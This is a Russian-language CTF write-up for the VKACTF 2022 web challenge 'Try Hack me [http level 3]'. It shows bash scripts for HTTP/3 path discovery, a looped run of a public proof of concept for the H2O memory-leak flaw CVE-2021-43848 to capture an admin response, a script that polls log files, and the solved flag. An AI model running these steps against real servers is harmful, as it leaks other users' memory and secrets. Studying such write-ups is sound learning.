



## Try Hack me [ http level 3 ]

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2022 | Try Hack me [ http level 3 ] | Web | Hard |

### Описание

> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> После того, как взломали сайт Киберслава, они разместили своё приложение, используя новые [стандарты](https://www.cloudflare.com/learning/performance/what-is-http3/). Администратор сайта проверяет его каждую секунду!

### Уязвимость

> [Leaking uninitialized memory from H2O Web Server](https://medium.com/@emil.lerner/leaking-uninitialized-memory-from-fastly-83327bcbee1f)

### Решение
> К сожалению, у меня не вышло настроить приложение так, чтобы с ним можно было взаимодействовать, используя браузер пользователя. Однако, cURl с параметром http3 отлично справляется с этой задачей.

Главная страница сайта не изменилась. Однако, так как на этот раз у нас нет исходных кодов, то нам необходимо провести разведку. Стандартные инструменты поиска скрытых директорий не подойдут, так как приложение общается по протоколу `HTTP/3`

### Разведка

Используем следующий bash скрипт для поиска скрытых файлов сервера
```bash
#!/bin/bash

URL=https://<URL>
dict=/tmp/quickhits.txt

while read -r line; do
        timeout 1 curl -I -s --http3 $URL$line | grep 'HTTP/3 200' 1>/dev/null && echo "[+] Found path $line"
done <$dict
```

> Возможно есть другие, более быстрые способы поиска скрытых файлов, но я их не нашёл

В зависимости от словаря будут найдены следующие файлы



Исходя из анализа `Dockerfile`'а, приложение написано на `python` и расположено в директории `app` пользователя `h2o`

Название файла сереверного приложения не показано, но его не трудно узнать - `main.py` (/home/h2o/app/main.py)

Серверное приложение позволяет войти в аккаунт по имени пользователя (за исключением пользователей `admin` и `default`). После аутентификации за пользователем закрепляется logger, который будет логировать все post-данные, отправляемые пользователем на `/log`

Путь `/admin` возвращает флаг и доступен только для админа.

Из заголовка ответа веб-сервера можно заметить, что h2o сервер находится не на последней версии



Данная версия [уязвима](https://medium.com/@emil.lerner/leaking-uninitialized-memory-from-fastly-83327bcbee1f) для атаки `Leaking uninitialized memory from H2O Web Server`

### Эксплуатация

Данной уязвимости присвоен идентификатор `CVE-2021–43848`. [PoC](https://github.com/neex/hui2ochko) доступен в открытом доступе

Эксплойт заставляет сервер отправить часть своей оперативной памяти в POST запросе на указанный путь

В эксплойте необходимо указать путь `/api/log/` и куки пользователя, чтобы ликнутая оперативная память сервера записывалась в конкретный лог файл пользователя (md5sum от имени пользователя)



Логи эксплойта будут записывать в файл по пути `/app/logs/(md5sum от username).log` и ротироваться от .1 до .9

На путь `/admin` ежесекундно выполняются запросы администратора (из исходных кодов). Ответ приложения сохраняется в оперативной памяти. Таким образом через определённое время в логах эксплойта должен сохранится ответ приложения

Эксплойт необходимо запускать несколько раз, пока в логах не появится флаг

```bash
while :; do ./hui2ochko <DNS> <IP>; done
```

Для автоматизации поиска флага можно использовать следующий bash скрипт

```bash
while :;
do
    check_flag=0
    for i in {1..9}
    do
        docker run -it --rm ymuski/curl-http3 curl --http3 "$URL/app/logs/$(echo -n $USERNAME | md5sum | cut -c 1-32).log.$i" | tr -d 'A' | grep vka && exit
    done
    sleep 60
done
```

**Флаг:**

> vka{l34k1n6_un1n1714l1z3d_m3m0ry_fr0m_h20_w3b_53rv3r}